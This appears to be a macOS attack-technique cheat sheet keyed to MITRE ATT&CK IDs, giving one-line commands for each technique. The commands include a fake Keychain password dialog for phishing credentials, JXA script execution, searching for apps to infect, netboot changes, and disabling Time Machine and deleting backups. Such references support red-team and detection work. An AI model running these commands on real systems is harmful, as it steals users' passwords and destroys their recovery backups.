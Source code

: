## T1187 - Forced Authentication

**Source: TBD**

| Description | Command |
|-------------|---------|
| Use the osascript binary to prompt the user for credentials | `osascript -e 'set popup to display dialog "Keychain Access wants to use the login keychain" & return & return & "Please enter the keychain password" & return default answer "" with icon file "System:Library:CoreServices:CoreTypes.bundle:Contents:Resources:FileVaultIcon.icns" with title "Authentication Needed" with hidden answer'` |

## T1059.002 - Command and Scripting Interpreter: AppleScript

**Source: TBD**

| Description | Command |
|-------------|---------|
| Use the osascript binary to execute a JXA (JavaScript for Automation) file. | `echo "ObjC.import('Cocoa');\\nObjC.import('stdlib');\\nvar currentApp = Application.currentApplication();\\ncurrentApp.includeStandardAdditions = true;\\ncurrentApp.doShellScript('open -a Calculator.app');" > calc.js && osascript -l JavaScript calc.js` |

## T1592.002 - Gather Victim Host Information: Software

**Source: TBD**

| Description | Command |
|-------------|---------|
| Use mdfind to search for apps to infect | `set appId to do shell script "mdfind kMDItemCFBundleIdentifier = '" & bundleId & "'"` |

## T1482 - Domain Trust Discovery

**Source: TBD**

| Description | Command |
|-------------|---------|
| Add a netboot server | `csrutil netboot add <address>` |
| Map infrastructure | `csrutil netboot list` |

## T1490 - Inhibit System Recovery

**Source: TBD**

| Description | Command |
|-------------|---------|
| Disable Time Machine | `tmutil disable` |
| Delete a backup | `tmutil delete /path/to/backup` |
| Exclude path from backup | `tmutil addexclusion /path/to/exclude` |

## T1574.001 - Hijack Execution Flow: DLL Search Order Hijacking
